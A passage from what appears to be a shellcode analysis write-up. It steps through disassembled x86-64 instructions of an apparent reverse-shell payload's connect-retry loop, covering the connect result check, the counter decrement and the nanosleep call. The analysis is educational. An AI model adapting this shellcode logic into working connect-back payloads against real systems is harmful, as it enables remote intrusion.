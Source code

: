 #    0x4000ad:    dec    r9
#    0x4000b0:    je     0x4000ca
#    0x4000b2:    push   rdi
#    0x4000b3:    push   0x23
#    0x4000b5:    pop    rax
#    0x4000b6:    push   0x0
#    0x4000b8:    push   0x5
#    0x4000ba:    mov    rdi,rsp
#    0x4000bd:    xor    rsi,rsi
#    0x4000c0:    syscall
</code></pre><p>Among the first instructions, there's a <code>pop rcx</code> that restores the old value of <code>RCX</code> (pushed by the instruction <code>0x40009b</code>).</p><p>After that, the instructions <code>test</code> and <code>jns</code> test whether the value returned by the syscall <code>connect</code> is signed or not. If the value is signed, hence negative, it means the function failed, and the socket client failed to connect to the socket server.</p><p>In that case, the shellcode doesn't perform any jumps, however it jumps to the address <code>0x4000ad</code>.</p><p>Let's analyze the instructions at that address:</p><pre><code class="language-nasm">; decrease the value stored in R9 (see 2 instructions at 0x400078)
; the initial value is 0xa
; is the value after dec is 0, the shellcode jumps to 0x4000ca
dec    r9
je     0x4000ca

; save the file descriptor of the socket created previously on the stack
push   rdi

; set RAX to 35 -&gt; sys_nanosleep
push   0x23
pop    rax

; create a timespec structure (5 seconds and 0 nanoseconds)
push   0x0
push   0x5

; get the address of the timespec structure and store it into RDI
mov    rdi,rsp
